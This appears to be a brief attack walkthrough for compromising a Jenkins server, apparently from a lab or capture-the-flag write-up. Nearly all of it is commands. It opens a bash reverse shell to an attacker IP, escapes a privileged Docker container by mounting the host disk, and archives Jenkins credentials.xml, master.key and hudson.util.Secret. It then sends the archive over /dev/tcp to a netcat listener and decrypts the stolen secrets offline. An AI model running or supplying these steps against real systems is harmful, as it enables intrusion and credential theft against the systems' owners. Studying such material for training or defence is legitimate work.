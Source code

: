 # How can you pivot onto the master server, take a look at available nodes

# Enable the node-docker-privileged
# Create a new job or modify an existing one and add the following step
# Look at the PDF writeup to find exactly what you need to set up
bash -c "bash -i >& /dev/tcp/{PLACEHOLDER_PRIVATE_IP}/4242 0>&1"


# Now you'll need to escape the docker
lsblk
mkdir mount_point
mount /dev/[mount_point_name] mount_point
cd mount_point/bitnami/jenkins/home
tar cvf to_export.tar credentials.xml secrets/master.key secrets/hudson.util.Secret

# You need to exfiltrate the tar file
### on your kali
nc -lp 4243 > exfiltrated_secrets.tar
### On the victim system
cat to_export.tar > /dev/tcp/{PLACEHOLDER_PRIVATE_IP}/4243

### on your kali
tar xvf exfiltrated_secrets.tar

# You can read there to find the file needed to decrypt the secrets https://github.com/gquere/pwn_jenkins
 python3.9 /writeup/4_Stealing-secrets-from-the-orchestrator/jenkins_offline_decrypt.py secrets/master.key secrets/hudson.util.Secret credentials.xml
